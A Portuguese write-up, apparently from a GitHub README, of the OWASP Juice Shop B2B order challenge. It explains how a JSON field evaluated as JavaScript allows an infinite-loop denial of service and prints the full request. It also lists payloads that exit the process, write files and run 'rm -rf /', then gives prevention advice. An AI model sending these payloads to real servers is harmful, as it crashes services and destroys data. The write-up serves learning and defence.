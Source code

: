 # **Denial of Service (DoS)**.

Vuerabilidade de `/api-docs`  do `swegger`

## 🔥 Como funciona essa vulnerabilidade?

1. **A API tem um endpoint (`/rest/b2b/orders`) que recebe dados em JSON.**

2. Ela aceita um campo chamado `orderLinesData`, que **é avaliado como código JavaScript** no servidor.

3. Em vez de validar e tratar a entrada como simples texto ou JSON, o backend utiliza uma biblioteca (`notevil`) para **interpretar dinamicamente a string recebida como código JS**.

4. Isso permite que o atacante envie **funções, loops, chamadas a objetos globais**, etc.

---

## 🚨 Por que isso é perigoso?

* Se não houvesse proteções, seria possível executar:

  ```json
  "orderLinesData": "process.exit()"
  ```

  → Derruba o servidor.

* Ou ainda:

  ```json
  "orderLinesData": "require('fs').writeFileSync('/tmp/hack.txt','Hacked!')"
  ```

  → Escreve arquivos no servidor.

* Ou:

  ```json
  "orderLinesData": "require('child_process').execSync('rm -rf /')"
  ```

  → Executa comandos do sistema operacional.

---

## ⚡ Por que o payload causou **DoS**?

Seu payload:

```json
{
  "cid": "JS0815DE",
  "orderLines": [
    {
      "productId": 8,
      "quantity": 500,
      "customerReference": "PO0000001"
    }
  ],
 "orderLinesData": "(function(){for(;;){};})()"

}
```

codigo de ataque:
```js
"orderLinesData": "(function(){for(;;){};})()"
```



* Entra em um **loop infinito**, que faria o servidor gastar CPU indefinidamente.
* Isso **bloquearia a thread de execução** do Node.js, travando requisições de outros usuários.
* No Juice Shop, existe uma proteção no `notevil` que interrompe a execução após detectar loops infinitos.

---

## 📚 Qual vulnerabilidade OWASP é essa?

➡️ **A deserialização insegura** (OWASP Top 10 – **A08:2021 – Software and Data Integrity Failures**)
➡️ Também se relaciona com **Insecure Deserialization** e **Remote Code Execution (RCE)**.

Como você executou um código malicioso que pode causar **DoS**, é um exemplo de:

✅ **Insecure Deserialization → Remote Code Execution (RCE) → Denial of Service (DoS)**

---

## 🛡️ Como prevenir?

✅ **Nunca interpretar dados do usuário como código** (`eval`, `Function`, `notevil`, etc.)
✅ **Usar tipagem forte e validação de entrada**
✅ **Desabilitar execução de código arbitrário em bibliotecas**
✅ **Implementar timeouts e sandboxing rigoroso**

---
